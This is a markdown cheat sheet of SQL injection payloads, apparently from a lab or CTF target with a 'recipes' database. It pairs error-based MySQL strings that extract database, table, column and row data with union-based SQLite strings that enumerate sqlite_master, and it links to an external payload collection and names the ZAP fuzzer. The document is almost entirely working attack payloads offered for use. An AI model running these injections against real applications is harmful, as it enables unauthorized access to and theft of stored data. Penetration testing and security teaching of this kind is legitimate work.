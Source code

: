 ## Owasp ZAP
```
fuzzer
```

## Payloads
- Link of advanced sqlinjection payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/MySQL Injection

## ErrorBased SQLI

- The actual data retriving payload inside <<<>>>

```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT       ........... <<<version()>>> ...........          )s), 8446744073709551610, 8446744073709551610)))#
```
### Payloads
- Retrieve Databases names in one line
```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * From(SELECT GROUP_CONCAT(schema_name) AS AllDatabases FROM information_schema.SCHEMATA)s), 8446744073709551610, 8446744073709551610)))#
```
- Retrive Table Names 
```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT GROUP_CONCAT(TABLE_NAME) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'recipes' AND TABLE_TYPE = 'BASE TABLE')s), 8446744073709551610, 8446744073709551610)))#
```

- Retrive Column Names
- Group_concat(concatinate the values of output in one line)
```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT GROUP_CONCAT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'recipes' AND TABLE_NAME = 'recipes')s), 8446744073709551610, 8446744073709551610)))#
```

- Retrive Data from Table Columns
- Concat_ws(replace null value as '')
```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * From(SELECT concat_ws(',',id,name,servings,ingredients,instructions,description,category,added,modified,creator,editor,imagefile) FROM recipes)s), 8446744073709551610, 8446744073709551610)))#
```



## UnionBassed SQLI
- SQLite
- Test for the available columns
```
' union select 1,2,3,4,5,6,7 -- 
```
### Inject Payload
- Version check
```
' union select sqlite_version(),2,3,4,5,6 --
```
- Table Name exfilterate
```
' union select tbl_name,2,3,4,5,6 from sqlite_master--
```
-Column names exfilterate
```
' union select sql,2,3,4,5,6 from sqlite_master--
```
```
